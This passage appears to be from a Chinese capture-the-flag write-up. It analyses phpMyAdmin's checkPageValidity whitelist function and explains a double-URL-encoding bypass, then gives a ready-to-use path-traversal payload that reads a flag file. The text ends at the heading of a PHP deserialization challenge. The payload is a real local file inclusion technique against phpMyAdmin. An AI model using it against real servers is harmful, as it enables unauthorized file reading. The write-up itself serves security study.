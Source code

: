 Core::checkPageValidity($_REQUEST['target'])，Core类参数校验方法

```
 1  public static function checkPageValidity(&$page, array $whitelist = [])
 2     {
 3         if (empty($whitelist)) {
 4             $whitelist = self::$goto_whitelist;
 5         }
 6         if (! isset($page) || !is_string($page)) {
 7             return false;
 8         }
 9 
10         if (in_array($page, $whitelist)) {
11             return true;
12         }
13 
14         $_page = mb_substr(
15             $page,
16             0,
17             mb_strpos($page . '?', '?')
18         );
19         if (in_array($_page, $whitelist)) {
20             return true;
21         }
22 
23         $_page = urldecode($page);
24         $_page = mb_substr(
25             $_page,
26             0,
27             mb_strpos($_page . '?', '?')
28         );
29         if (in_array($_page, $whitelist)) {
30             return true;
31         }
32 
33         return false;
34     }
```

问题在于第23行的urldecode($page)方法，存在二次编码绕过

```
$_page = urldecode($page);
%25的url编码为%
%3f的url编码为?
%253f-->?
```

直接上payload：/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag

# [安洵杯 2019]easy_serialize_php

上一篇文章讲过了php反序列化字符逃逸了
